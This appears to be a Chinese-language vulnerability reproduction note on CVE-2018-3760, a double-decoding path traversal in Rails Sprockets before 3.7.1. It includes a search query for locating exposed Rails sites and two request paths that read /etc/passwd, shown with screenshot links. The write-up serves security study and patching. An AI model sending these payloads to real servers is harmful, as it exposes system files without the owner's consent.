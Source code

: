 # 

# Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

```
Sprockets < 3.7.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](./images/202206281114422.png)

先获取绝对路径

```
/assets/file:%2f%2f/etc/passwd
```

![image-20220628111516877](./images/202206281115997.png)

再利用POC读取文件

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![image-20220628111532098](./images/202206281115231.png)
